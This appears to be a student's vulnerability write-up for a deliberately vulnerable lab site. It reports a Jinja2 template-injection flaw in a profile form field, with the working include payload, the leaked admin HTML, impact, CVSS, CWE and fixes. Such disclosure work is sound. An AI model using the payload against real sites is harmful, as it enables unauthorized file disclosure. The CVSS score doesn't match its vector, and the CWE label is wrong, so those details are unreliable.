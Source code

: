 # Server Side Template Injection (SSTI)

## Grupo 7

### Description

An SSTI vulnerability was identified in the **other role** field of the profile settings form on Grupo 7's website (http://social-book-goat-7.deti/profile-settings).

URL: http://social-book-goat-7.deti/profile-settings?username=admin

For a given username, specified via a query parameter, the profile settings form allows users to configure additional roles for their account. One of these fields, **other role**, is used to add extra roles dynamically to the profile:

![profile settings page](writeup1.PNG)

However, when a specific template expression is injected into the **other role** field, the application displays an error page revealing the application stack trace.

![error page revealing stack trace](writeup2.PNG)

Upon inspecting the error page, we found a vulnerable snippet of code within Grupo 7's ```/app/views.py``` file, where the exception occurred:

![vulnerable code snippet](writeup3.PNG)

### Proof of Concept

In its current state, the vulnerability allows an attacker to inject a template expression directly into the **other role** field. This injection causes the Jinja2 template engine to process the injected content, leading to file inclusion on the server. The payload successfully rendered is:

```jinja
{% include 'admin/base.html' %}
```

This payload demonstrates the ability to include an internal file on the server, in this case, **admin/base.html**. The contents of the file, which is part of the admin UI, are revealed to the attacker:

```html
<!DOCTYPE html>
<html lang="en-us" dir="ltr">
<head>
  <title></title>
  <link rel="stylesheet" href="/static/admin/css/base.css">
  <link rel="stylesheet" href="/static/admin/css/dark_mode.css">
  <meta name="viewport" content="user-scalable=no, width=device-width, initial-scale=1.0, maximum-scale=1.0">
  <link rel="stylesheet" href="/static/admin/css/responsive.css">
  <meta name="robots" content="NONE,NOARCHIVE">
</head>
<body class="" data-admin-utc-offset="0">
  <!-- Container -->
  <div id="container">
    <!-- Header -->
    <div id="header">
      <div id="branding">
      </div>
    </div>
    <!-- END Header -->
    <div class="breadcrumbs">
      <a href="/admin/">Home</a>
    </div>
    <div class="main" id="main">
      <div class="content">
        <!-- Content -->
        <div id="content" class="colM">
          <br class="clear">
        </div>
        <!-- END Content -->
        <div id="footer"></div>
      </div>
    </div>
  </div>
  <!-- END Container -->
</body>
</html>
```

This file inclusion provides insight into the admin UI structure, revealing paths to static resources, like CSS files. These file paths could not be included in a similar manner to ```admin/base.html``` as an "Internal server error" response was returned.

It’s important to note that other attempts to inject different payloads either yielded an empty response or resulted in an internal server error, indicating that file inclusion is the primary attack vector currently exploitable in this instance.

### Impact

The SSTI vulnerability on Grupo 7's platform can be exploited to **disclose sensitive internal files** by injecting arbitrary template tags. The immediate impact is limited to **information disclosure** (unauthorized access to internal files such as HTML templates and static resources).

While this vulnerability does not directly allow **data modification** (such as inserting or deleting data from the database), it presents a **confidentiality** risk. The revealed content may aid an attacker in crafting further attacks or identifying additional vulnerabilities. For example:

1. **Internal HTML template files**: Exposes the structure of the admin panel.
2. **Paths to static resources**: Reveals paths to potential assets or additional configuration files that could be misused.

While the current disclosure may seem relatively benign, an attacker could use this information to further probe the application for additional weaknesses, especially in combination with other attacks.

### CVSS

**Score:** 7.5

**Vector:** AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N

**Note:** The confidentiality impact is high due to the possibility of unauthorized file inclusion and exposure. Although the integrity and availability impacts are low, the ability to disclose sensitive data remains a significant risk.

![Graph overview](writeup5.PNG)

### CWE

**CWE-98: Improper Control of Generation of Code ('Code Injection')**

The application improperly handles user input within the template system, allowing an attacker to inject arbitrary code into the server's template engine, potentially causing unauthorized execution of sensitive code.

### Recommendations

- **Input Validation**: Properly validate and sanitize all user inputs to ensure they do not contain template syntax or characters that can trigger template rendering.
- **Template Context Control**: Avoid allowing user-controlled data to be directly rendered by the template engine. If dynamic template inclusion is necessary, use strict whitelisting of file names.
- **Use Safe Methods for File Inclusion**: Replace the raw template inclusion mechanism with safer methods that explicitly validate paths or restrict the inclusion to specific trusted files.